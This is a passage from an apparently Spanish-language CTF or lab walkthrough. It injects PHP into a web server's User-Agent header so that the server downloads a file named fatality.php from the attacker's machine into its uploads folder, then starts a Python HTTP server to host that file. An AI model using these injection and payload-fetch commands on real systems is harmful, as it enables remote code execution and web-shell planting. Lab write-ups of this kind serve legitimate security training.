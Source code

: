 Utilizamos Curl para mandarle la petición al servidor de la victima

```bash
curl -i -v 172.17.0.2 -A "<?php system('curl 172.17.0.1:1112/fatality.php -o /var/www/html/uploads/fatality.php') ; ?>"
```

![[20250812210343.png]](veneno-images/20250812210343.png)
## Segundo

abrimos un puerto http con el mismo numero que indicamos en el php del curl en este caso 1112 pero podeis elegir cualquiera solo tened en cuenta que debe coincidir el puerto del curl con el puerto abierto en http en vuestra maquina de atacante 

```bash
python3 -m http.server 1112
```

![[20250812210321.png]](veneno-images/20250812210321.png)

## Tercero 

volvemos a la pagina web al directorio
